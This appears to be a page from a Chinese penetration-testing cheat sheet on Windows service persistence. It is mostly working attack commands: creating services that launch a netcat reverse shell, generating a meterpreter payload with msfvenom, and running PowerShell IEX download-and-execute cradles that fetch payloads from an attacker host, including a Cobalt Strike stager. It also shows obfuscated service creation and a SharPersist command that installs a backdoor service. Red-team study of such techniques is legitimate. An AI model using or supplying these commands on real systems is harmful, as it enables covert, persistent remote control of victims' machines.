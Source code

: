 	重启维持nc
	>sc create ms binpath= "cmd /K start c:\nc\nc64.exe -d 192.168.0.51 4567 -e cmd.exe" start= delayed-auto error= ignore
	重启维持psh
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=11111 -f psh-reflection >/var/www/html/xxx.ps1
	>sc create ms binpath= "cmd /K start C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -nop -exec bypass -c \"IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/xxx.ps1')\"" start= delayed-auto error= ignore
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/457.png)

	重启维持Cobalt strike
	配置监听器，生成web传递模块Powershell脚本
	>sc create ms binpath= "cmd /K start C:\WINDOWS\system32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.0.107:8080/a'))\"" start= delayed-auto error= ignore
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/458.png)

	Delay执行大概2分钟上线
	>sc delete ms 卸载服务
	Powershell
	>powershell.exe new-service -Name nuoyani -BinaryPathName "C:\WINDOWS\Temp\360.exe" -StartupType Automatic
	>$c2='new-';$c3='service -Name nuoyani -DisplayName OrderServ -BinaryPathName "C:\accc.exe" -StartupType Automatic'; $Text=$c2+$c3;IEX(-join $Text)

	使用SharPersist
	>SharPersist -t service -c "C:\Windows\System32\cmd.exe" -a "/c backdoor.exe" -n "Backdoor" -m add